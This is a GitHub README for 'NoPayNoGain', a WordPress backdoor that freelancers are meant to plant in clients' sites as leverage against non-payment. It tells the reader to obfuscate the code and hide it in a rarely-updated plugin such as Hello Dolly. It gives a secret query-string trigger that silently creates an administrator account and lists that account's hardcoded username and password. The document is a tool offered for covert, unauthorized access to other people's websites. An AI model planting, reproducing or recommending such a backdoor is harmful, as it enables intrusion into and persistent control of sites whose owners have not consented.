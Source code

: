 # NoPayNoGain
Ultra simple WordPress backdoor to defend freelancers from non-paying clients

## Usage
Put the obfuscated version in a rarely-updated plugin, like Hello Dolly. Leave it active. If you ever need to regain access to the website, just connect to:
```
http://example.org/?nobeggars=knockknock
```
A new account is now added to the WP website:
```
username: nopaynogain
password: areyougonnapaymeornot
```

You'll want to change the username/password to stay safe: change them in the Clear version and obfuscate the PHP with [PHP Obfuscator](https://php-minify.com/php-obfuscator/#)

